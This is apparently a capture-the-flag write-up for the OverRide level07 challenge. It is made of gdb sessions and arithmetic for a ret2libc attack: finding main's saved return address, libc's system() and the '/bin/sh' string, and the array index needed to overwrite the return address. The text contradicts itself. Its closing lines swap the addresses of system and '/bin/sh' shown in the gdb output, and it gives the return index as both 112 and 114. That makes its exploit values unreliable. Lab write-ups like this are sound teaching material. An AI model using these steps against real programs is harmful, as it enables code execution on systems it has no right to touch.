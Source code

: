 gdb) break main
Breakpoint 1 at 0x8048729
(gdb) run
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) /x $ebp
Undefined command: "".  Try "help".
(gdb) p/x $ebp
$1 = 0xffffd718

p/x $ebp → 0xffffd718

BASE = ebp - 0x1bc → 0xffffd55c
RET_ADDR = ebp + 4 → 0xffffd71c
RET_INDEX = 112


```bash
level07@OverRide:~$ gdb level07 
(gdb) b store_number # store_number's call
Breakpoint 1 at 0x8048636
(gdb) b *0x080489f1 # main's ret call
Breakpoint 2 at 0x80489f1
(gdb) run

Starting program: /home/users/level07/level07 

Input command: store

Breakpoint 1, 0x08048636 in store_number ()
(gdb) x $ebp+0x8 #base at the store_number entry
0xffffd530:     0xffffd554 #here

(gdb) info proc map
from 0xf7e2c000 to 0xf7fd0000 #libc mapping

(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec # "/bin/sh" address

(gdb) info functions system
0xf7e6aed0  system # "system's address

(gdb) c
Continuing.
 Number: 1
 Index: 1
 Completed store command successfully

Input command: quit

Breakpoint 2, 0x080489f1 in main ()
(gdb) p/x $esp
$1 = 0xffffd71c #main's ret adress
(gdb) c
Continuing.
[Inferior 1 (process 1842) exited normally]
```

offset index = (return address - base) / 4
(0xffffd71c - 0xffffd554) / 4 = 0x1c8/4 = 114

system = 0xf7f897ec = 4160264172
"/bin/sh" = 0xf7e6aed0 = 4159090384